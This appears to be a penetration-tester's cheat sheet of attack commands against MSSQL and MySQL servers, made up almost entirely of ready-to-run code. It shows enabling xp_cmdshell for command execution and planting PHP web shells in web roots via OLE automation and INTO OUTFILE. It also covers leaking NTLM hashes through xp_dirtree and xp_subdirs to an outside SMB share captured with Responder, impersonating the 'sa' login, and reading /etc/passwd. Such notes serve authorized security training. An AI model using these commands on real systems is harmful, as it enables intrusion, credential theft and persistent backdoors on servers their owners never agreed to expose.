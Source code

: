 
MSSQL command execution 
```cmd-session
1> xp_cmdshell 'whoami'
2> GO
```

MSSQL Enabling xp_cmdshell
```mssql
-- To allow advanced options to be changed.  
EXECUTE sp_configure 'show advanced options', 1
GO

-- To update the currently configured value for advanced options.  
RECONFIGURE
GO  

-- To enable the feature.  
EXECUTE sp_configure 'xp_cmdshell', 1
GO  

-- To update the currently configured value for this feature.  
RECONFIGURE
GO
```

Enable writing to files with MSSQL (Requires Admin)

```cmd-session
1> sp_configure 'show advanced options', 1
2> GO
3> RECONFIGURE
4> GO
5> sp_configure 'Ole Automation Procedures', 1
6> GO
7> RECONFIGURE
8> GO
```

Creating Files
```cmd-session
1> DECLARE @OLE INT
2> DECLARE @FileID INT
3> EXECUTE sp_OACreate 'Scripting.FileSystemObject', @OLE OUT
4> EXECUTE sp_OAMethod @OLE, 'OpenTextFile', @FileID OUT, 'c:\inetpub\wwwroot\webshell.php', 8, 1
5> EXECUTE sp_OAMethod @FileID, 'WriteLine', Null, '<?php echo shell_exec($_GET["c"]);?>'
6> EXECUTE sp_OADestroy @FileID
7> EXECUTE sp_OADestroy @OLE
8> GO
```

XP_DIRTREE Hash Stealing
```cmd-session
1> EXEC master..xp_dirtree '\\10.10.110.17\share\'
2> GO
```

XP_SUBDIRS Hash Stealing
```cmd-session
1> EXEC master..xp_subdirs '\\10.10.110.17\share\'
2> GO
```

```shell-session
sudo responder -I tun0
```

```shell-session
sudo impacket-smbserver share ./ -smb2support
```

Finding Users to impersonate
```cmd-session
1> SELECT distinct b.name
2> FROM sys.server_permissions a
3> INNER JOIN sys.server_principals b
4> ON a.grantor_principal_id = b.principal_id
5> WHERE a.permission_name = 'IMPERSONATE'
6> GO
```

Verifying Current User and Role
```cmd-session
1> SELECT SYSTEM_USER
2> SELECT IS_SRVROLEMEMBER('sysadmin')
3> go
```

Impersonating User
```cmd-session
1> EXECUTE AS LOGIN = 'sa'
2> SELECT SYSTEM_USER
3> SELECT IS_SRVROLEMEMBER('sysadmin')
4> GO
```




MySQL

Privilege files 
`secure_file_priv` may be set as follows:

- If empty, the variable has no effect, which is not a secure setting.
- If set to the name of a directory, the server limits import and export operations to work only with files in that directory. The directory must exist; the server does not create it.
- If set to NULL, the server disables import and export operations.

Showing variables
```shell-session
show variables like "secure_file_priv";
```

Writing to Local File
```shell-session
SELECT "<?php echo shell_exec($_GET['c']);?>" INTO OUTFILE '/var/www/html/webshell.php';
```

Reading Local File
```shell-session
select LOAD_FILE("/etc/passwd");
```

